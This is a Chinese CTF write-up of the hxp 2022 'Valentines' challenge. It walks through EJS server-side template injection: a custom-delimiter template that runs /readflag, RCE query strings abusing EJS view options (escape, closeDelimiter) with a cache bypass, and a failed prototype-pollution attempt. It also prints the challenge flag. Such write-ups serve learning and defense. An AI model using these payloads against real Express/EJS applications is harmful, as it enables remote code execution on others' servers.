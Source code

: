 # Valentines

```js
app.post('/template', function(req, res) {
  let tmpl = req.body.tmpl;
  let i = -1;
  while((i = tmpl.indexOf("<%", i+1)) >= 0) {
    if (tmpl.substring(i, i+11) !== "<%= name %>") {
      res.status(400).send({message:"Only '<%= name %>' is allowed."});
      return;
    }
  }
  let uuid;
  do {
    uuid = crypto.randomUUID();
  } while (fs.existsSync(`views/${uuid}.ejs`))

  try {
    fs.writeFileSync(`views/${uuid}.ejs`, tmpl);
  } catch(err) {
    res.status(500).send("Failed to write Valentine's card");
    return;
  }
  let name = req.body.name ?? '';
  return res.redirect(`/${uuid}?name=${name}`);
});

app.get('/:template', function(req, res) {
  let query = req.query;
  let template = req.params.template
  if (!/^[0-9A-F]{8}-[0-9A-F]{4}-[4][0-9A-F]{3}-[89AB][0-9A-F]{3}-[0-9A-F]{12}$/i.test(template)) {
    res.status(400).send("Not a valid card id")
    return;
  }
  if (!fs.existsSync(`views/${template}.ejs`)) {
    res.status(400).send('Valentine\'s card does not exist')
    return;
  }
  if (!query['name']) {
    query['name'] = ''
  }
  return res.render(template, query);
});
```

可以提交一个模板，模板限制了若以`<%`开头，内容只能是`<%= name %>`

题目中ejs的版本是`3.1.8`，而之前那个漏洞`settings[view options][outputFunctionName]`要求`3.1.6`及其以下的版本

问题在这个把整个query对象都传入进行渲染，这就使得用户可以自定义一些配置了。翻了一下ejs的官方文档，发现可以自定义模板的分隔符

传模板：`<?- global.process.mainModule.require('child_process').execSync('/readflag') ?>`

渲染：`name=123&delimiter=%3f`（`%3f`是`?`）

`hxp{W1ll_u_b3_my_V4l3nt1ne?}`

------

## New EXP

后面做`JustCTF2023`又遇到了ejs，找到一位师傅的wp，又回来看这题了，tql😭

👉[hxpCTF2022wp | Z3ratu1's blog](https://z3ratu1.github.io/hxpCTF2022wp.html)

下面我们再来一场ejs渲染之旅

```js
const express = require('express')
const app = express()
const port = 3000

app.set('view engine', 'ejs');

app.get('/page', (req,res) => {
    res.render('page', req.query);
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
})
```

`app.render`一直跟进，直到进入`ejs/lib/ejs.js#renderFile`

![image-20230607211232390](../.gitbook/assets/image-20230607211232390.png)

这里的data就是传入`req.query`

接着将`viewOpts`浅拷贝到`opts`

进入`tryHandleCache(opts, data, cb);`，跟进`handleCache(options)`

![image-20230607211903101](../.gitbook/assets/image-20230607211903101.png)

![image-20230607213632542](../.gitbook/assets/image-20230607213632542.png)

这里new了一个`Template`（后面会用到），进入`compile`

![image-20230607212325578](../.gitbook/assets/image-20230607212325578.png)

这里对`opts`的各种属性进行了检测，通过了才能拼接到`prepended`

之前那个常见的payload，拼接到此为：

`var x;process.mainModule.require('child_process').execSync('calc');x = __append;`

实际上对3.1.6的修复漏掉了一个属性`escapeFn`，可能是修的时候看到这个没有前缀`opts.`吧

![image-20230607213215472](../.gitbook/assets/image-20230607213215472.png)

`var escapeFn = opts.escapeFunction;`，再往上看有个构造函数，挺多属性可以改的

![image-20230607213448353](../.gitbook/assets/image-20230607213448353.png)

![image-20230607213529671](../.gitbook/assets/image-20230607213529671.png)

上面`new Template`的时候就能传入`opts.escapeFunction`!

```js
?settings[view options][client]=1&settings[view options][escape]=process.mainModule.require('child_process').execSync('calc');
```

这个问题目前最新版本`3.1.9`还没修复！

有一个坑点就是cache问题，在生产模式下，或者开启了`app.enable('view cache');`，模板只会编译一次，也就是只能执行一次RCE。如何控制cache呢？

上面构造opts时，最后还会执行`utils.shallowCopyFromList`把data的键值拷贝到`opts`中

```js
if (data.settings['view cache']) {
    opts.cache = true;
}
viewOpts = data.settings['view options'];
if (viewOpts) {
    utils.shallowCopy(opts, viewOpts);
}
// ...
utils.shallowCopyFromList(opts, data, _OPTS_PASSABLE_WITH_DATA_EXPRESS);
```

![image-20230607231950003](../.gitbook/assets/image-20230607231950003.png)

`handleCache`首先判断是否有缓存，有则先从`exports.cache`中找

![image-20230607232114664](../.gitbook/assets/image-20230607232114664.png)

找不到的话，后面`compile`也会把结果存入`exports.cache`

注意这里添加`cache=false`会被处理为字符串，而不是布尔值，因此`cache`字段放空即可

```js
?settings[view options]=1&settings[view options]=process.mainModule.require('child_process').execSync('calc');&cache=
```

这时候尝试每次指定不同的命令，成功执行不同的命令。

## ejs文件可控

👉[EJS, Server side template injection ejs@3.1.9 Latest · Issue #720 · mde/ejs (github.com)](https://github.com/mde/ejs/issues/720)

index.js

```js
const express = require('express')
const app = express()
const port = 3000

app.set('view engine', 'ejs');

app.get('/page', (req,res) => {
    res.render('page', req.query);
})

app.listen(port, () => {
  console.log("Example app listening on port ${port}")
})
```

page.ejs

```ejs
%%1");process.mainModule.require('child_process').execSync('calc');//
```

poc

```js
http://127.0.0.1:3000/page?settings[view%20options][closeDelimiter]=1")%3bprocess.mainModule.require('child_process').execSync('calc')%3b//
```

![image-20230608091417684](../.gitbook/assets/image-20230608091417684.png)

`delimiter`为`%`，ejs中要存在可利用的`closeDelimiter`

要放在其他题目感觉挺鸡肋的。。。都能直接写`ejs`哪还要这么绕。

但这题限制了`<%`开头，内容只能是`<%= name %>`

泰裤辣！！！

## 渲染参数限制

上面漏洞产生的直接原因是完全信赖用户的输入

`res.render(template, query)`把`query`一股脑放进去渲染

但若这里改成`res.render(template, {name: query['name']})`了呢

要想利用还得改动一下express版本，req.query可以造成原型链污染

> 震惊，这里是从justCTF2023那学到的
>
> express版本: 4.17.2 （valentines这题的版本是4.18.2，打不出来）
>
> 改一下package.json的dependencies
>
> "dependencies": {
>
>   "ejs": "3.1.8",
>
>   "express": "4.17.2"
>
>  }
>
> 执行npm install即可
>
> npm ls express 查看下载的版本

```js
name[__proto__][__proto__][settings][view%20options][client]=1&name[__proto__][__proto__][settings][view%20options][escape]=process.mainModule.require('child_process').execSync('calc');&name[__proto__][__proto__][cache]=
```

污染不了。。。（justCTF后面是通过idx赋值去污染的）

打不动了，还是太菜了呜呜呜



